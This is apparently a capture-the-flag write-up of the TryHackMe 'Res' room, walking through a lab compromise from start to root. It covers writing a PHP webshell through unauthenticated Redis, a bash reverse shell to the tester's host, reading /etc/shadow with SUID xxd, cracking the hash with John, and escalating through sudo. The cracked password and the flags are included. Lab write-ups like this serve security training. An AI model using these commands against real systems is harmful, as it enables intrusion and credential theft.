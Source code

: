 # Room: Res

## General Info
- **Room link:** [Res](https://tryhackme.com/room/res)

## Description

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

## Provided Files / Links
- [x] Target Machine IP (10.10.151.169)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV 10.10.151.169 -p- -T5`

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```
There is a redis service on port 6379.

I was able to connect on the service with `redis-cli -h 10.10.151.169 -p 6379`.

I will try to get unauthenticated Remote Code Execution now with the following:

```
config set dir /var/www/html
config set dbfilename shell.php
set payload "<?php system($_GET['cmd']); ?>"
save
```

I then create a listener (`nc -lnvp 1337`) and trigger the shell:

```
http://10.10.151.169/shell.php?cmd=id
http://10.10.151.169/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.9.1.194/1337+0>%261'
```

An I am now in the target machine.

## Target machine exploitation

I first stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/sh")'`.

I am able to locate the user.txt flag in /home/vianka: **thm{red1s_rce_w1thout_credent1als}**.

I download linpeas.sh on the target machine (after creating a web server on my machine with `python3 -m http.server 33456`).

The most important thing is the following (I will exploit this permission later):

```
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
-rwsr-xr-x 1 root root 19K Mar 18  2020 /usr/bin/xxd
```

Then the following is something that I already knew when I connected to redis: 

```
Redis isn't password protected
-rw-rw-r-- 1 vianka vianka 84643 Sep  2  2020 /home/vianka/redis-stable/redis.conf
```

The groups permission will be useful later when we're logged as vianka (vianka is in the sudo group):

```
uid=1000(vianka) gid=1000(vianka) groups=1000(vianka),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

First, I will exploit the `xxd` vulnerability with GTFObins (https://gtfobins.github.io/gtfobins/xxd/). I can read the /etc/shadow file with these commands:

```
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | xxd -r
```

I find vianka's hash:

```
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Then I will try to crack the hash with John the Ripper.

I create a hash.txt file with the hash:

`echo '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0' > hash.txt`

And run the command (it's a sha512crypt hash):

`john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

And I find the password **beautiful1**.

With vianka's password, I am able to switch user and since vianka is in the sudo group, I can now become root (`sudo su`).

I find the last flag in /root/root.txt: **thm{xxd_pr1v_escalat1on}**.